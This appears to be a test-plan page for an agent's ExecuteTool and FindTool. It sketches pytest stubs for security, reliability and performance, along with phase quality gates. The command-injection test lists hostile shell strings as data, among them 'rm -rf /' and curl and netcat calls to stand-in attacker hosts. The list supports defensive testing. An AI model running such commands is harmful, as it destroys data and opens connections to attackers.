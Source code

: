 ### ExecuteTool Test Cases

#### Security Test Cases (Critical)
```python
@pytest.mark.security
def test_execute_tool_command_injection():
    """Test ExecuteTool prevents command injection."""
    injection_attempts = [
        "ls; rm -rf /",
        "ls && curl malicious.com",
        "ls | nc attacker.com 1234",
        "ls $(rm important_file)"
    ]
    
@pytest.mark.security
def test_execute_tool_privilege_escalation():
    """Test ExecuteTool prevents privilege escalation."""
    
@pytest.mark.security
def test_execute_tool_resource_limits():
    """Test ExecuteTool enforces resource limits."""
```

#### Reliability Test Cases
```python
@pytest.mark.reliability
def test_execute_tool_timeout_handling():
    """Test ExecuteTool timeout enforcement."""
    
@pytest.mark.reliability
def test_execute_tool_process_cleanup():
    """Test ExecuteTool cleans up processes properly."""
```

### FindTool Test Cases

#### Performance Test Cases
```python
@pytest.mark.performance
def test_find_tool_large_codebase():
    """Test FindTool performance on large codebases."""
    
@pytest.mark.performance
def test_find_tool_search_patterns():
    """Benchmark different search patterns."""
```

## Quality Gates

### Phase 2 Completion Criteria
- [ ] **Coverage**: 90%+ test coverage on all tools
- [ ] **Security**: All security tests passing
- [ ] **Performance**: Benchmarks meet target thresholds
- [ ] **Integration**: Cross-tool compatibility verified
- [ ] **Documentation**: Tool usage examples updated
